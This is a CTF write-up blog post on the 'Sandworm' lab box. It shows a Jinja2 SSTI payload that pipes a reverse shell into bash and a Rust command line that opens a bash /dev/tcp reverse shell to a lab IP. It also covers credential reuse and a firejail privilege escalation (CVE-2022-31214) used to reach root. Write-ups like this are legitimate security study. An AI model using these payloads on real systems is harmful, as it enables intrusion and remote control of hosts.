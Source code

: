 ```yaml
---
title: Sandworm
date: 2023-11-18
published: true
categories: ["CTF"]
tags: ["ctf", "ssti", "rust", "python", "CVE-2022-31214"]
---
```


# Sandworm
This was a medium box that featured a ssti and had a rust library that we could change to run malicious code, and then it
was a setuid program that has a know cve against it. This is my first blog post so there might be some mistakes.

## Initial foothold
On the nmap scan we see that 3 ports are open and that we are given a host name that we can add to /etc/hosts


![img.png](/assets/img/sandworm/img.png)


Upon visiting the website we see that it's something to do a secret spy agency and that it is using the flask framework
because of the powered by flask at the bottom of the page. Clicking on the contact page we see that we can send pgp messages
also we can try a guide on pgp. On the guide we can verify a signature of a message, so we can generate a key and sign
the message with that key and see what the page displays to us. We can use gpg for this which is the GNU privacy guard 
and is an open source pgp implementation. 


![img_2.png](/assets/img/sandworm/img_2.png)
We first use the --gen-key flag to generate the key with the email of a@a.com and a Real name
of whatever.We can then export the key and the -a flag means that the key with be exported in ascii format so that we 
can copy into the key box when versing the signature. We then create the message that we want to sign this only worked for
me if the file was a txt file. Then we can use the clear-sign so that signature is readable, and again we can copy it 
into the signed message box.
![img_3.png](/assets/img/sandworm/img_3.png)



We see that the name we entered is rendered into the result and because the website is powered by flask the tempalting 
engine that would be in use would be Jinja2 we can test this by creating another key with the name of the key being a ssti. 
First I will delete the key we made using the -k flag to list the key and then using the --delete-secret-keys with the key 
id to delete the secret key and then using the --delete-key to fully delete the key. And then we can use the --gen-key again but 
change the real name to be a jinja2 payload can get this from payload of all the things. And then sign the message again with
this new key and go to verify it.

``` python

{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "base64 bash reverse shell" | base64 -d | bash').read() }} 
#get rid of the \ it wasnt rendering on the website if was in the double curly brackets.
```

## Shell as silentobserver
When we go to verify this key the page hangs, and we get a reverse shell. On the shell we seem to be a restricted shell as
there is none of the usually tools and our terminal name is dumb.
![img_4.png](/assets/img/sandworm/img_4.png)


In our users home directory there is a directory called .config and upon going there we see firejail which is a sandboxing program
but there is nothing in that directory we also see httpie which is a command line http client. Since it is a http command line
client it may store passwords used on websites and things like that we can check for password reuse. In the directory there is
an admin.json file with a password and username in it and if we look at /etc/passwd that user is on the box. So we can try to ssh
in as that user and get a better shell then the current one, and we can ssh as that user.
## Shell as Atlas (unrestricted)
Since we know the password we can try sudo -l, but we can't run as sudo also this user has .cargo directory in its home 
which points to rust being used.This is because cargo is build and package manager for rust and there should be a caro.toml
somewhere that cargo is using to build the rust applications.We can also check for cronjobs by putting pspy on the box and see what is 
being run and who as.We see that the flask application is being run in firefail so that explains why are shell was restricted
when we get the reverse shell. We also see a cron job for cargo and is running as atlas, and we see the directory,
so we can go check that directory and see what the cargo.toml that the cargo uses looks like to build the application.
![img_5.png](/assets/img/sandworm/img_5.png)


We see the cargo.toml is using a logger library that is custom and is using the `extern crate logger;` in the main.rs code
to include the dependency which is in an external crate to the one it was declared in.
![img_6.png](/assets/img/sandworm/img_6.png)


We see that in the main source code this `use std::process::Command;` is being used to execute commands so if we add that 
to the library we should be able to execute commands when the log library is called in the main.rs code. So we do the 
`command::new("bash").arg("-c").arg("bash -i >& /dev/tcp/10.10.14.26/1234 0>&1").output();`
![img_7.png](/assets/img/sandworm/img_7.png)`


And then when the cron jobs execute and builds the new library and uses it we get a reverse shell as atlas in a normal shell.
## Shell as root
If we look at suid bits now we see the firejail suid bit and beacuse we are part of the jailer group we can now execute
the firejail suid bit program. But before we exploit that i am going to add a ssh key to .ssh directory in the home directory
for atlas so we can better shell.
![img_8.png](/assets/img/sandworm/img_8.png)


We see that the firejail version is 0.9.68 and there is this exploit for this version https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#CVE-2022-31214-Firejail-LPE
 . We Can run this and get root on the box. 
![img_9.png](/assets/img/sandworm/img_9.png)
![img_10.png](/assets/img/sandworm/img_10.png)
![img_11.png](/assets/img/sandworm/img_11.png)


And that is the box and we can now read root.txt.

## Beyond Root
The rust script was being used to something in the database as there is a database url in that and a password but that password
doesn't lead to anything. I don't really know rust, so I don't really know what's going on, but it seems to be taking submissions from the 
website and then putting them into the database. If we connect to the database we see that there are some encrypted messages
stored in there from submissions and some other messages that don't lead to anything.

![img_12.png](/assets/img/sandworm/img_12.png)
The main source code is executing code and then passing the username from that command to the log library which then takes
it logs to access.log file which runs the username and what the action it was taken.
![img_13.png](/assets/img/sandworm/img_13.png)


We see that in the app.py and the function that is responsible for displaying the message that it is rendering a template with the
msg variable. If the key is verified then the output of verifying the key is put into the message and we can control the name
in that message and then the study.html template uses that variable passed to it so we can control what does a part of what 
goes into {{ }} and there is no filter, so we can get command execution,
![img_14.png](/assets/img/sandworm/img_14.png)

![img_15.png](/assets/img/sandworm/img_15.png)
